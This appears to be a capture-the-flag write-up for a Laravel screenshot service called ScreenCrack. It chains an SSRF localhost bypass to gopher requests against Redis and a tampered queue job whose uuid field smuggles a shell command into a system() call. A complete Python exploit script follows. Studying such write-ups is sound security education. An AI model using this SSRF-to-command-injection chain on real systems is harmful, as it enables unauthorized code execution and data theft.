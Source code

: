 ```yaml
---
tags:
  - Web
---
```


# ScreenCrack 

[![Medium](https://img.shields.io/badge/Medium-FF9E0F?style=for-the-badge&logoColor=#FF9E0F)](https://squidfunk.github.io/mkdocs-material/)

## Challenge description

New screenshot service just dropped! They talk alot but can they hack it?

---

### First recon

Our flag is in a file in the application directory.

We have a **Laravel 10.6.2** application runing which homepage said:

**Users can view screenshots and the source code of any entered URL using the free web service ScreenCrack. To protect user privacy, our service deletes all screenshots and source files. Our primary goal is to protect users from malicious, shady, and fraudulent links.**

![](../../images/HTB/screen-crack/homepage.png)

We can pass an URL. Let's take a look what we can do with it.

We have two options linked to two different api endpoints:

- `/api/getss` - Get the URL screenshot using the web **"https://api.screenshotmachine.com/?key=6b76b2&dimension=1024x768&url=".$url** and creates a temporally png file with a random name inside **/www/public/ss/** path
- `/api/get-html` - Made a request to the URL, read the response and add a txt file with page content inside **/www/public/src/** path and render inside a iframe

Additionally there is a job that delete generated files after some time using the next code.

```php
public function deleteFile()
{
    $filepath = $this->buildFilePath();
    system("echo '".$this->uuid."'>>halo");
    system("rm ".$filepath);
}
```

In local we can see the uuids removed by the job.

![](../../images/HTB/screen-crack/halo_content.png)

**Important:** All URLs are validated before send the request, so local URL aren't permited.

We have also a local Redis application up and running. Feels like we need to make some [SSRF](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#basic-information) tricks to communicate with Redis service.

### Localhost Bypass

I tried using HackTricks urls to bypass localhost but nothing helps.

After a while I found that some public domains resolves to 127.0.0.1 [Available Public Wildcard DNS Domains pointing to localhost (127.0.0.1)](https://gist.github.com/tinogomes/c425aa2a56d289f16a1f4fcb8a65ea65).
And using `fbi.com` as domain we get access to local application.

![](../../images/HTB/screen-crack/local_bypass.png)

Let's try to communicate with Redis service.

### Redis RCE

Looking how to communicate with redis service through SSRF we can found multiple post that use the `gopher` schema. If we test the INFO command of redis with the URL `gopher://fbi.com:6379/_%0D%0AINFO%0D%0Aquit%0D%0A` we received the response of Redis:

```
...
# Server
redis_version:7.0.15
redis_git_sha1:8cceef4b
redis_git_dirty:0
redis_build_id:b445ae7ca70219e7
redis_mode:standalone
os:Linux 6.8.11-arm64 aarch64
arch_bits:64
...
```

And using this python script we can create payloads sending to Redis and try to get our flag using some [LFI](https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion) technique.

```python
redis_cmd = """
INFO server
quit
"""
gopherPayload = "gopher://fbi.com:6379/_%s" % redis_cmd.replace('\r','').replace('\n','%0D%0A').replace(' ','%20')

print(gopherPayload)
```

I tried to use Redis to create a PHP webshell like [https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion](https://book.hacktricks.xyz/pentesting-web/file-inclusion#file-inclusion) but we can't do this because Redis thrown error because `dir` and `dbfilename` config parameters cannot be changed.

Looking in the official forum discussion someone says that we need to use the Redis key values generated by Laravel application. If we check the values of the keys generated by the application, we found that the key values are the instances of `App/Jobs/rmFile`, including the properties.

```
{"uuid":"e65cb62f-5b72-4e6b-9cfd-5c2b91eaf47f","displayName":"App\\Jobs\\rmFile","job":"Illuminate\\Queue\\CallQueuedHandler@call","maxTries":null,"maxExceptions":null,"failOnTimeout":false,"backoff":null,"timeout":null,"retryUntil":null,"data":{"commandName":"App\\Jobs\\rmFile","command":"O:15:\"App\\Jobs\\rmFile\":1:{s:9:\"fileQueue\";O:21:\"App\\Message\\FileQueue\":3:{s:8:\"filePath\";s:45:\"\/src\/f046b9ac-710b-426d-bb21-d08669b3c96d.txt\";s:4:\"uuid\";s:36:\"f046b9ac-710b-426d-bb21-d08669b3c96d\";s:3:\"ext\";s:3:\"txt\";}}"},"id":"OyW8xxRT4ydRNEXlRhNDdpSDOoeoEtyH","attempts":0}
```

🤔 What if we change the uuid value to made a RCE excecution when app excetute `echo` command that we see previously. And yes, it worked.

![](../../images/HTB/screen-crack/rce.png)

So, let's try to read the content of the flag exposed in a public directory, using the code `;mv /flag /www/public/src/flag.txt;echo` we can archieve it.

### Exploit

```python
#!/usr/bin/python3

import requests
import re
import time

HOST = 'http://94.237.62.79:46267'

try_again = False

cookies = {'laravel_session': 'eyJpdiI6IjFEck5qN2tqam9TSERHRThtZXdFY0E9PSIsInZhbHVlIjoiV3hpRWwraTBGWDI1bThBZHRFSU4wOGxDbkt4VnJNdStTUFQrSGMxZGE3MEN5eWVGMVluNm5EZHNCaTJWNmxFY2JOR3Brc1p6dURCNmg2OHRCbFI2UkZUS1Y2OHA0Zmx4U0ZSbXVtMkRVZkRKTFI3bWxPUjRINU9sSU83Q21obnMiLCJtYWMiOiJmODVmZDZjNzczZTBlOGU1OGUwM2QyY2RhZTBmMTBhZWQ5NmE4ODMyMGE0NWQyZTA4OWNjYzJiNGUyNjE0MGE4IiwidGFnIjoiIn0%3D'}


def send_redis_cmd(cmd):
    gopherPayload = "gopher://fbi.com:6379/_%s" % cmd.replace(
        '\r', '').replace('\n', '%0D%0A').replace(' ', '%20')

    res = requests.post(f'{HOST}/api/get-html',
                        json={'site': gopherPayload},
                        headers={'Content-Type': 'applcation/json'},
                        cookies=cookies
                        )
    response = res.json()
    txt_file = response['filename']

    return requests.get(f'{HOST}{txt_file}', cookies=cookies)


redis_cmd = """
rpop laravel_database_queues:default
quit
"""

res = send_redis_cmd(redis_cmd)

convertedInstance = None
try:
    code_to_exec = ';mv /flag /www/public/src/flag.txt;echo Done'
    instance_re = re.compile(r'({"uuid".*:0})')
    uuid_re = re.compile(
        r's:36:\\"[0-9a-f]{8}-[0-9a-f]{4}-[0-5][0-9a-f]{3}-[089ab][0-9a-f]{3}-[0-9a-f]{12}\\"')
    rmInstance = re.search(instance_re, res.text).group(0)
    convertedInstance = re.sub(
        uuid_re,
        f's:{len(code_to_exec)}:\\"{code_to_exec}\\"',
        rmInstance)
except:
    print("No instance saved. Try again")
    try_again = True

redis_replace_cmd = f"""
lpush laravel_database_queues:default '{convertedInstance}'
lrange laravel_database_queues:default 0 10
quit
"""

if convertedInstance is not None:
    res = send_redis_cmd(redis_replace_cmd)
else:
    print("Try again")
    try_again = True

print("Done. Waiting the cronjob...")

if not try_again:
    while True:
        print("Trying get flag value")
        r = requests.get(f'{HOST}/src/flag.txt', cookies=cookies)
        if r.status_code != 404:
            print(r.text)
            break
        time.sleep(60)

```